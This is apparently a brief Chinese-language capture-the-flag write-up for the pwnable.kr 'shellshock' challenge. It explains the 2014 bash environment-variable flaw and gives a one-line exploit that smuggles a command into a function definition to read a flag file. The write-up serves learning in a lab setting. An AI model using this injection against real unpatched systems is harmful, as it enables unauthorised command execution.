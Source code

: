 # pwnkr shellshock
1. 這是出現在 2014 年的 10 級漏洞，針對 4.3 版本以下的 bash，原理是在執行 bash 的時候，會遍歷每個環境變數
2. env x='() { :;}; /bin/sh -c "cat flag"' ./shellshock
3. 我們定義的 x 繞過了 export 函數的定義檢查，讓後面的指令可以被執行
